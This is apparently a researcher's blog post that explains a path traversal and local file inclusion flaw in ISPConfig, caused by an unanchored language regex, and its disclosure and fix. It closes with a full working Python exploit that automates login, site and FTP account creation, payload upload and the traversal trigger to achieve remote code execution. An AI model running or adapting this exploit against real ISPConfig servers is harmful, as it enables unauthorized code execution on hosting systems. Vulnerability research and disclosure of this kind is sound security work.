 ```yaml
---
layout: post
title:  "Bug or Backdoor - Exploiting a Remote Code Execution in ISPConfig"
date:   2018-08-20
categories: security ispconfig exploit vulnerability
---
```


## Introduction

In this blogpost I will write about a suspicion I had which turned out to be fale, how regex-es can go wrong and also how to chain logic features to achieve reliable Remote Command Execution. 

I was having a coffe with one of my friends who works at a web-hosting company and talking about the software they use. There I heard about ISPConfig and how many features and secure it was.Since I had some free time , I decided to have a look at it and managed to find a critical vulnerability in it.


## Finding the vulnerability

I downloaded and installed ISPConfing on a Ubuntu VM and started analyzing the source code.
There were a lot of bad practices in the code, but there were also a lot of checks which made most of the code unexploitable.ISPConfig works as a system which contains clients,
and they can create websites, ftp accounts etc., but all of them are on their own chroot.


The first thing that I do when I audit some software is to find out what the attack surface is, and what kind of bugs I want to find.  Seeing this kind of architecture I decided to audit the code that was exposed from a client user. So I started auditing it , and after a lot of failed attempts because of the aggressive checks done by ISPConfig, I found something interesting in the ```user_settings.php ``` file.

On almost any file there is a call to ``` include ISPC_ROOT_PATH.'/web/login/lib/lang/'.$_SESSION['s']['language'].'.lng';``` Searching a little bit of where this value was initialized I found the source code below.

```php
 if(preg_match('/[a-z]{2}/',$_POST['language'])) {
            $_SESSION['s']['user']['language'] = $_POST['language'];
            $_SESSION['s']['language'] = $_POST['language'];
        } else {
            $app->error('Invalid language.');
        }

```
And I was like: "Come on , not regex checks again."

But after reading the regex I noticied a flaw in the logic. The problem is that every string that contains two [a-z] characters will match the regex, and there were no further checks for path traversal attacks.

This was very strange since all of the regexes in the code had the ``` ^ regex-pattern $``` which only matched if the entire string matched the pattern not only a part of it.

Seeing this I was suspicious if this was a backdoor and not some random flaw, but after talking with Till (Maintainer of ISPConfig) he told me that it wasn't the case and the code dated back as the first version of ISPConfig 3 and it was something that was missed during the internal audits.

## Exploiting the vulnerability 

From the analysis now we have a directory traversal which can be abused for local file inclusion attacks.

Since in the new versions of php we can not use null byte injections, either a path-truncation attack but we can create a ftp-account, upload the file we want to include with ```.lng ``` extension at our path and the code will get executed as the ispconfig account and not as our chroot-ed account.


So the idea of the exploit is like this :

1. Create a Site
2. Create an FTP Account
3. Disclose the current path of the FTP upload directory.
4. Upload the payload to our directory.
5. Include the uploaded payload.
6. RCE Achieved !!!

I wrote an exploit for this bug, which automatically did all the steps above by itself.
Below is an image of the exploit in action.

![Exploiting the vulnerability](/images/isp-config-exploit.png)

## Closing remarks

This was a nice bug to find and could have been missed very easily.
An important thanks goes to Till Brehm who acknoledged the vulnerability and fixed it in 1 day, which is impressive.

You can find more details on how to update [here](https://www.ispconfig.org/blog/ispconfig-3-1-13-released-important-security-bugfix/).

# Exploit code

```python
import requests
import ftplib
import json
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


host = "REPLACE_IP:8080"
username = "REPLACE_Username"
password = "REPLACE_Password"

exp = requests.session()
user_agent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
ftp_username = "randomusr1"
domain = "pwnerrr.com"
site_id = 1
payload_name = "pwned1"
path = ""



def login():
	r = exp.post('https://%s/login/index.php' % host,data={'username':username,'password':password,'s_mod':'login','s_pg':'index'},verify=False)
	if(r.text.find("wrong")>0):
		print "[-] Incorrect credentials [-]"
	else:
		print "[+] Logged in Succesfully [+]"


def createSite():
	
	r = exp.get('https://%s/sites/web_vhost_domain_edit.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/web_vhost_domain_edit.php' % host,data={'server_id':1,'ip_address':'*','ipv6_address':'','domain':'%s' % domain,'hd_quota':1024,'traffic_quota':1024,'subdomain':'www','php':'no','fastcgi_php_version':'','active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	pass

def createFtp():
	global site_id
	r = exp.get('https://%s/sites/ftp_user_edit.php' % host,verify=False)
	print "[+] Getting IDSof the sites [+]"
	temp_array = r.text.split('<option value=')
	nr_sites = len(temp_array)
	print "[+] Number of sites %d [+]" % (int(nr_sites) - 1)
	# Find the latest created site by checking the ID.
	max_id = -9999

	for i in range(1,nr_sites):
		temp = int(temp_array[i].split('>')[0].replace("'",""))
		if(temp > max_id):
			max_id = temp
	site_id = max_id
	print "[+] Newly created site id is : %d [+]" % site_id
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/ftp_user_edit.php' % host,data={'parent_domain_id':site_id,'username':'%s' % ftp_username,'password':'%s' % password,'repeat_password':'%s' % password,'quota_size':1024,'active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	print "[+] Created FTP Account [+]"
	pass


def uploadPayload():
	ftp = ftplib.FTP(host.split(":")[0])
	ftp.login(username+ftp_username, password)
	ftp.cwd("web")
	ftp.storlines("STOR %s.lng" % payload_name,open("test.txt"))
	print "[+] Payload %s uploaded Succesfully [+]" % payload_name
	pass

def waitTillCreation():
	while 1:
		print "[+] Trying [+]"
		r = exp.get('https://%s/datalogstatus.php' % host,verify=False)
		temp = json.loads(r.text)
		if(temp["count"] == 0):
			print "[+] Everything created .... [+]"
			return
		time.sleep(5)

def getRelativePath():
	
	global path

	r = exp.get('https://%s/sites/web_vhost_domain_edit.php?id=%d&type=domain' % (host,site_id),verify=False)
	path = r.text.split('Document Root</label>')[1].split('<div class="col-sm-9">')[1].split('<')[0]
	path += "/web/" + payload_name
	print "[+] Uploading payload in %s [+]" % path

def triggerVuln():
	r = exp.get('https://%s/tools/user_settings.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	user_id = r.text.split('name="id" value="')[1].split('"')[0]
	r = exp.post('https://%s/tools/user_settings.php' % host,data={'passwort':'','repeat_password':'','language':'../../../../../../../../../../../../../..%s' % path,'id':'%s' % user_id,'_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	r = exp.get('https://%s/index.php'% host,verify=False)
	print r.text

login()
createSite()
createFtp()
getRelativePath()
waitTillCreation()
uploadPayload()
triggerVuln()

```
